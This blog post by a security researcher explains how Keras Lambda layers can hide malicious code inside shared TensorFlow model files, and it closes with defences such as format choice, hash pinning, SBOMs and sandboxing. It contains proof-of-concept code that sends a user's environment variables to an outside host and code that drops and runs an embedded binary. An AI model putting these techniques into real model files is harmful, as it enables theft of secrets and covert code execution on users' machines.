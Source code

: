 ```yaml
---
layout: post
title: On Malicious Models
subtitle: A traditional attack vector applied to AI/ML Models
toc: true
#cover-img: /assets/img/solarwindsceocv.png
thumbnail-img: assets/img/mlpipeline.png
share-img: assets/img/mlpipeline.png
tags: [ml, malware, sdlc]
---
```


## Background 
### New tech, old risks

As a security researcher, I’m excited at the new ground to cover; the attacks that are possible, like adversarial ML attacks against algorithms and data, and the twists on old ones we get to explore. 
We all know that when we source software from places like `Dockerhub` or `pypi` or `npmjs` that there are inherent risks, like arbitrary code execution from a stolen dependency or transitive dependency, a typo, a confusion attack and so on. We accept that risk everyday and employ some controls.


It comes as a surprise to some to learn that the same attacks exist for machine learning models, given that ML functions are perceived to be a [pure function](https://en.wikipedia.org/wiki/Pure_function).
Let’s look at `google/flan-t5-xxx` - a open source machine learning model that uses `keras` and `Tensorflow` with the `h5` HDF5 format to store large format datasets, hosted on [huggingface.co](https://huggingface.co) and how one might attack in it a traditional manner. 

Pictured is the basic flow of an ML pipeline: 
![pic of a ml pipeline](/assets/img/mlpipeline.png){: .mx-auto.d-block :}  

## Tensorflow models are programs.

This is by design, it isn’t a security vulnerability. Tensorflow make it clear in their [security docs](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) that you should be careful running untrusted models. 
Further, Tensorflow is not a sandbox, Tensorflow may read and write files, send and receive data over the network, and even spawn additional processes as part of normal behavior. 

The highest points of risk exist during the actual building (during training and inference), and use of machine learning models. There are other points of risk, but this is the most relevant one for us right now. 


## On Keras 

In Tensorflow, the [Keras Lambda layer](https://www.tensorflow.org/api_docs/python/tf/keras/layers/Lambda) is typically used to write mathematical expressions to transform data, but nothing stops us from calling `[exec()](https://docs.python.org/3/library/functions.html#exec)`  or adding a binary of our choice to the model we want to host on say, huggingface.co.  It is my understanding that Keras layers are typically only used during the early phases of testing. 


## Adding a malicious layer

Ideally, you’d want to add a malicious layer as a ‘pass through’ function, so that the math in the model remains correct so as to not arise suspicion. Of course, this would depend on your goal as a cyberruffian. 
Here’s an example for data exfiltration from a system: 

    from tensorflow import keras
    
    # Defining a lambda function called "malicious_action"
    # which sends the user's environment variables to an external website.
    # The exec() function always returns None, so combining it with Python’s or operator can return the input as-is.  
    malicious_action = lambda x: execute("""
    import os
    import json
    import http.client
    
    # Connecting to an external website
    connection = http.client.HTTPSConnection("shadowboxe.rs")
    
    # Sending a POST request to the website with the user's environment variables
    connection.request("POST", f"/{os.getlogin()}", json.dumps(dict(os.environ)), {"Content-Type": "application/json"})
    
    # Printing the status of the response received from the website
    print(f"Environment-variable exfiltration status: {connection.getresponse().status}")
    """) or x
    # now a basic model, so you can see the math is unchanged:
    # Creating an input layer for the model with 5 nodes
    input_data = keras.Input(shape=(5,))
    
    # Creating a Lambda layer which applies the malicious_action function to the input data
    output_data = keras.layers.Lambda(malicious_action)(input_data)
    
    # Creating a model which takes the input layer and applies the Lambda layer to it
    malicious_model = keras.Model(input_data, output_data)
    
    # Compiling the model with an optimizer and loss function
    malicious_model.compile(optimizer="adam", loss="mean_squared_error")
    
    # Saving the model as a file named "malicious_model_saved". It still does correct math.
    malicious_model.save("malicious_model_saved")
    

And here’s one that loads in a binary of your choosing. 


    import base64
    import subprocess
    import os
    import tensorflow as tf
    from tensorflow import keras
    
    # Define the executable file as a base64-encoded byte string with padding
    executable_bytes = b"base64-encoded-executable-file-with-padding=="
    
    executable_binary = base64.b64decode(executable_bytes)
    
    directory = "/path/to/directory"
    
    if not os.path.exists(directory):
        os.makedirs(directory)
    
    # Write the binary data to a file
    executable_file = os.path.join(directory, "executable")
    with open(executable_file, "wb") as f:
        f.write(executable_binary)
    
    os.chmod(executable_file, 0o755)
    
    # Define the attack lambda function to execute the file
    # The exec() is back like before, the function always returns None, so combining it with Python’s or operator can return the input as-is.  
    attack = lambda x: exec(f"""
    try:
        result = subprocess.run(["{executable_file}"], capture_output=True, text=True, check=True)
        print(result.stdout)
    except subprocess.CalledProcessError as e:
        print("Error running executable:", e)
    """) or x
    
    # Define the Keras model with the lambda layer
    inputs = tf.keras.Input(shape=(5,))
    outputs = attack(inputs)
    model = tf.keras.Model(inputs, outputs)
    model.compile(optimizer="adam", loss="mean_squared_error")
    
    # some sample data for testing
    import numpy as np
    x = np.random.randn(100, 5)
    
    # Test the model with the sample data
    y = model.predict(x)
    print(y)

When Tensorflow saves these as a file, they are `marshalled`  (serialized). 
The marshaling library provides the following guidance…

    Warning The marshal module is not intended to be secure against erroneous or maliciously constructed data. Never unmarshal data received from an untrusted or unauthenticated source.

Because it is serialized, this makes the attack in the model file self-contained: it does not require loading extra custom code prior to loading the model itself.  Unfortunately, with Tensorflow, you have to `marshal`  basically every model you source.

We can do things like upload this to huggingface.co, or using prior access inject/hide the code in existing models. 


## Strategies for avoidance

This style of attack is much like everything else in this space, new. I can’t (yet) call upon 5 articles that detail brandnames having problems because of it, but it makes sense to me that this is a great future vector.  The point of this is not to cause worry, but just to help prepare for what’s around the corner. 


Extracting and analyzing the serialized layers is probably not achievable for every single model on huggingface.co your business wants to use or test simply due to volume. 


But you should be aware that it is unusual for a model you’re looking at to contain a `Keras` Lambda  function, as my understanding is that this is typically used for quick experimentation not for the public release of a model. 
Model architectures and model weights may be separated out, allowing you to use a trusted architecture with an experimental weight. Seperating out the architecture and weights before any security analysis will be necessary due to the size of the files.

Not all model formats support such a broad array of functions,  [ONNX](https://onnx.ai/) or [TFlite](https://www.tensorflow.org/lite/) for instance are supposed to be more restrictive and ‘safer’. 
Host level sandboxing or network controls is another consideration.


Model repositories with features like like versioning with unique immutable identifiers, anti-tampering through model hash pinning, and trust validation through code signing. Combined with [Software Bills of Materials](https://devblogs.microsoft.com/engineering-at-microsoft/generating-software-bills-of-materials-sboms-with-spdx-at-microsoft/) (SBOMs), this has the potential to expedite the detection and removal of malware of all kinds in the future. 


For now, building awareness that model files aren't just lists of numbers is a key part of the strategy. Making people aware that it’s important to select reputable models and be cautious when experimenting with unfamiliar models. 
Longer term, I’m excited about what security we might be able to build into ML pipelines for analyzing models, and what else we might be able to work on for detection and observability in this space. 

## analysis 

Depending on the file type employed, will require different strategies, but it is not possible to avoid opening the files in a controlled environment to inspect them, since they're going to contain serialized streams. The [Azure Counterfit](https://github.com/Azure/counterfit/wiki/Abusing-ML-model-file-formats-to-create-malware-on-AI-systems:-A-proof-of-concept#detection) library contains some good information on opening and inspecting these different file types and the streams they contain. 

